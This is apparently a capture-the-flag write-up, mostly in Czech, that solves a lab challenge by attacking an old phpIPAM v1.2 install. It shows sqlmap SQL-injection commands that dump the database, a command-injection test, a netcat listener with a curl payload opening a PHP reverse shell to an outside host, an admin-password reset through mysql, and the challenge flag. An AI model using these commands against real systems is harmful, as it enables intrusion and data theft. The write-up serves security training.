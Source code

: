 # Chapter 2: Origins (4)

## Zadání

Hi, TCC-CSIRT analyst,

do you know the feeling when, after a demanding shift, you fall into lucid dreaming and even in your sleep, you encounter tricky problems? Help a colleague solve tasks in the complex and interconnected world of LORE, where it is challenging to distinguish reality from fantasy.

* The entry point to LORE is at <http://intro.lore.tcc>.

See you in the next incident!

## Nápovědy (Hints)

* Be sure you enter flag for correct chapter.

## Řešení

Webová stránka ze zadání obsahuje pouze odkazy na 4 úlohy ve skupině LORE.

Webová stránka pro tuto úlohu je <http://pimpam.lore.tcc/> na které běží `phpIPAM IP address management [v1.2]`, zdrojový kód je na [githubu](https://github.com/phpipam/phpipam/tree/v1.2.0).

Verze 1.2 obsahuje několik závažných bezpečnostních chyb umožňujících neautorizovanému uživateli SQL Injection a RCE (Remote Code Execution), viz <http://archive.justanotherhacker.com/2016/09/jahx163_-_phpipam_multiple_vulnerabilities.html>.

Zkusíme nejdříve SQL injection

`sqlmap -u http://pimpam.lore.tcc/app/tools/logs/show-logs.php --data "Notice=Notice&Warning=Warning&direction=next&lastId=1" --dbs`

Parametr `lastId` je zranitelný na SQL Injection a databáze se jmenuje pimpam.

Vyčteme celou databázi `pimpam`.

`sqlmap -u http://pimpam.lore.tcc/app/tools/logs/show-logs.php --data "Notice=Notice&Warning=Warning&direction=next&lastId=1" -D pimpam --dump`

Ve stažené databázi se FLAG nenachází a administrátorské heslo se nepodařilo slovníkovým útokem dekódovat.

Pro RCE použijeme `subnet-scan-telnet.php`, ze zdrojového kódu vyčteme, že jsou potřeba parametry `port` a `subnetId`.

`curl http://pimpam.lore.tcc/app/subnets/scan/subnet-scan-telnet.php --data "port=1&subnetId=1;sleep 5"`

Odpověď trvala delší dobu, takže to je důkaz, že se zavolal `sleep`.

Payload vygenerujeme na <https://www.revshells.com/> a použijeme php.

Spustíme poslouchání na portu 4444

`nc -vlnp 4444`

a zavoláme

`curl http://pimpam.lore.tcc/app/subnets/scan/subnet-update-icmp.php --data-urlencode 'subnetId=1;php -r '\''$sock=fsockopen("10.200.0.24",4444);exec("sh <&3 >&3 2>&3");'\'''`

Dojde ke spojení na náš počítač, příkazem `set` si zobrazíme proměnné prostředí ve kterých se skrývá hledaný FLAG.

PS: Administrátorské heslo do phpIPAM je možné změnit postupem zde <https://phpipam.net/news/reset-phpipam-admin-password/> a použitím klienta mysql. Nastavení hesla `ipamadmin`:

`mysql -h "$PIMPAM_DBHOST" -u "$PIMPAM_DBNAME" -p"$PIMPAM_DBPASS" pimpam -e 'update users set password = "$6$rounds=3000$JQEE6dL9NpvjeFs4$RK5X3oa28.Uzt/h5VAfdrsvlVe.7HgQUYKMXTJUsud8dmWfPzZQPbRbk8xJn1Kyyt4.dWm4nJIYhAV2mbOZ3g." where username = "Admin";'`

## Flag

`FLAG{V51j-9ETA-Swya-8cOR}`
